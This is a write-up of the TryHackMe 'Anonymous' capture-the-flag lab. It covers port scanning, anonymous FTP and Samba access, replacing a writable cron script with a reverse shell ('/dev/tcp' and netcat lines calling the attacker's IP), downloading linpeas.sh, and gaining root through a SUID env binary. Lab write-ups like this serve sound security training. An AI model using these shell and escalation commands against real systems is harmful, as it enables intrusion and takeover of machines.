

# Anonymous
**Date:** January 24th 2022

[**Link**](https://tryhackme.com/room/anonymous) to the Anonymous CTF on TryHackMe.

This is rated as an intermediate level CTF.

<br>

## Objectives

This CTF requires you answer the following:
- Enumerate the machine.  How many ports are open?
- What service is running on port 21?
- What service is running on ports 139 and 445?
- There's a share on the user's computer.  What's it called?
- user.txt flag
- root.txt flag

<br>

## Nmap Scan

Standard `nmap` scan to start things out and see what we're dealing with:
```
sudo nmap -sC -sV -A -T4 -oN anonymous.txt 10.10.107.211
```
We have 4 ports open - ftp, ssh, and the 2 samba:
```
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:<MY IP>
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts [NSE: writeable]
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8b:ca:21:62:1c:2b:23:fa:6b:c6:1f:a8:13:fe:1c:68 (RSA)
|   256 95:89:a4:12:e2:e6:ab:90:5d:45:19:ff:41:5f:74:ce (ECDSA)
|_  256 e1:2a:96:a4:ea:8f:68:8f:cc:74:b8:f0:28:72:70:cd (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

<br>

## Samba Digging

I'll take a look at the Samba shares first to see what's available to download. I run `smbclient -L //10.10.107.211` and get:
```
Enter WORKGROUP\kali's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        pics            Disk      My SMB Share Directory for Pics
        IPC$            IPC       IPC Service (anonymous server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            ANONYMOUS
```
So we have a pics share to take a look at. Let's see what's in it. I run `smbclient -N \\\\10.10.107.211\\pics` and then `ls` and get:
```
smb: \> ls
  .                                   D        0  Sun May 17 07:11:34 2020
  ..                                  D        0  Wed May 13 21:59:10 2020
  corgo2.jpg                          N    42663  Mon May 11 20:43:42 2020
  puppos.jpeg                         N   265188  Mon May 11 20:43:42 2020
```
Let's download the files and see if we have anything hidden in the pictures. First I run `prompt` to disable being prompted for each file and then run `mget *` to download the files:
```
smb: \> prompt
smb: \> mget *
getting file \corgo2.jpg of size 42663 as corgo2.jpg (87.9 KiloBytes/sec) (average 87.9 KiloBytes/sec)
getting file \puppos.jpeg of size 265188 as puppos.jpeg (470.0 KiloBytes/sec) (average 293.3 KiloBytes/sec)
```
I run `strings`, `exif`, `stegseek`, and `steghide` on both pictures and nothing out of the ordinary is hidden in them.

Not seeing anything else interesting in Samba I decide to mvoe on to FTP.

<br>

## FTP Digging

We can see by the status code of 230 in the nmap scan for port 21 that anonymous FTP is allowed here, so let's see what we can find on the server.
```
ftp 10.10.107.211
Connected to 10.10.107.211.
220 NamelessOne's FTP Server!
Name (10.10.107.211:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||35464|)
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
226 Directory send OK.
ftp> cd scripts
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||15525|)
150 Here comes the directory listing.
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         1548 Jan 25 03:41 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```
There are 3 files listed, and one of them is a .sh file which is interesting. Let's download them.
```
ftp> prompt
Interactive mode off.
ftp> mget *
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||56377|)
150 Opening BINARY mode data connection for clean.sh (314 bytes).
100% |******************************************************************************************|   314      109.39 KiB/s    00:00 ETA
226 Transfer complete.
314 bytes received in 00:00 (3.84 KiB/s)
local: removed_files.log remote: removed_files.log
229 Entering Extended Passive Mode (|||18593|)
150 Opening BINARY mode data connection for removed_files.log (1548 bytes).
100% |******************************************************************************************|  1548        1.45 MiB/s    00:00 ETA
226 Transfer complete.
1548 bytes received in 00:00 (19.34 KiB/s)
local: to_do.txt remote: to_do.txt
229 Entering Extended Passive Mode (|||27689|)
150 Opening BINARY mode data connection for to_do.txt (68 bytes).
100% |******************************************************************************************|    68      159.62 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.85 KiB/s)
ftp>
```
Displaying the 3 files:
```
cat to_do.txt
I really need to disable the anonymous login...it's really not safe
```
```
cat clean.sh
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi
```
```
cat removed_files.log
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
```
Yes, they really should disable anonymous login!

The **clean.sh** file looks like it just goes out there every so often and removes files from the /tmp directory. This is more than likely attached to a cron job that runs at a specified interval.

The **removed_files.log** just displays what clean.sh puts in it.

Considering **clean.sh** is running every so often and it has **rwxr-xrwx** permissions we may be able to modify the script on our own system and then upload it to the FTP server replacing the existing file.

I decide to try and have it netcat back to my home system. I run `nc -nvlp 4444` on my system to set up a listener:
```
listening on [any] 4444 ...
```
I then modify the **clean.sh** script to connect back to my system:
```
#!/bin/bash

nc <MY IP> 4444
```
And upload it back to the FTP server:
```
ftp 10.10.107.211
Connected to 10.10.107.211.
220 NamelessOne's FTP Server!
Name (10.10.107.211:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd scripts
250 Directory successfully changed.
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||42895|)
150 Ok to send data.
100% |******************************************************************************************|    33        1.96 MiB/s    00:00 ETA
226 Transfer complete.
33 bytes sent in 00:00 (0.20 KiB/s)
```
It connected back to my listener almost immediately, but I was not able to get the shell to work properly and broke out of it:
```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.107.211] 33600
whoami
python3 -c 'import pty;pty.spawn("/bin/bash")'
^C
```

<br>

## Getting a Shell

Well, that didn't work. Let's try another method for connecting back to my listener. I modified **clean.sh** to the following:
```
#!/bin/bash

sh -i >& /dev/tcp/<MY IP>/4444 0>&1
```
I then uploaded it back to the FTP server and started a listener on my system with `nc -nvlp 4444`:
```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.107.211] 33614
sh: 0: can't access tty; job control turned off
$ whoami
namelessone
$ hostname
anonymous
```
Success! Let's make this an interactive shell:
```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
namelessone@anonymous:~$ export TERM=xterm
export TERM=xterm
namelessone@anonymous:~$ ^Z
zsh: suspended  nc -nvlp 4444

┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg

[1]  + continued  nc -nvlp 4444

namelessone@anonymous:~$
```

<br>

## Finding the user.txt flag

Now that I'm logged in and have a stable shell let's look for the **user.txt** flag. Running `pwd` shows I'm already in the currently logged in users home directory:
```
namelessone@anonymous:~$ pwd
/home/namelessone
```
`ls` shows:
```
namelessone@anonymous:~$ ls
pics  user.txt
```
There it is! `cat user.txt` gives us the **user.txt** flag:
```
namelessone@anonymous:~$ cat user.txt
<REDACTED>
```

<br>

## System Enumeration

I check out **/etc/passwd** to see what other users are on the system and it's just root and the currently logged in user so nothing interesting there.

I run `sudo -l` and it asks for a password, so I can't check that as of now.

Running a `ls -al` shows a **.sudo_as_admin_successful** file so namelessone does have some sort of sudo access.

I think it's time to get `linpeas.sh` on the system for a scan.

I start a http server on my system with `python3 -m http.server 80`
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
And then change over to the **/dev/shm** directory and `wget` the file:
```
namelessone@anonymous:/dev/shm$ wget http://<MY IP>/linpeas.sh
--2022-01-25 04:24:15--  http://<MY IP>/linpeas.sh
Connecting to <MY IP>:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 762836 (745K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 744.96K   870KB/s    in 0.9s    

2022-01-25 04:24:16 (870 KB/s) - ‘linpeas.sh’ saved [762836/762836]
```
`chmod +x linpeas.sh` and then start the scan up.

Looking through the scan results shows a SUID bit set on **/usr/bin/env** so it looks like we have a straightforward escalation route.

<br>

## Privilege Escalation

Taking a look at [**GTFOBins**](https://gtfobins.github.io/gtfobins/env/) shows a SUID vulnerability for the env command:
```
./env /bin/sh -p
```
Let's run it and get root! `/usr/bin/env /bin/sh -p` :
```
namelessone@anonymous:~$ /usr/bin/env /bin/sh -p
# whoami
root
```

<br>

## Finding the root.txt flag

Now that we're root let's check the standard root flag hiding place and `cd /root` to see if it's there:
```
# cd /root
# ls
root.txt
```
And with a `cat root.txt` we have our final flag!
```
# cat root.txt
<REDACTED>
```
<br>



<br>

Many thanks to:
- [Nameless0ne](https://tryhackme.com/p/Nameless0ne) for creating this CTF.
- **TryHackMe** for hosting this CTF.

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)
